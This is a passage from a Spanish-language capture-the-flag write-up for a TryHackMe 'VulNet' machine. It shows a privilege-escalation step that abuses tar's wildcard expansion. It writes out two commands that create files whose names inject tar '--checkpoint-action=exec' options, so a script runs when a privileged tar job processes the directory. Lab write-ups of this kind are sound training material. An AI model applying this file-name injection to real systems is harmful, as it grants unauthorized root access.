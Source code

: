 <img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_16-05.png">
</p>

por lo tanto investigando pude ver un articulo muy interesante que me ayudo a ejecutar una archivo bash aprovechando del tar y el asterisco que esta usando

```bash
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
```
asi creamos nuestra shell

<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_16-34.png">
</p>

y ejecutamos las siguientes dos lineas del articulo que leimos

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
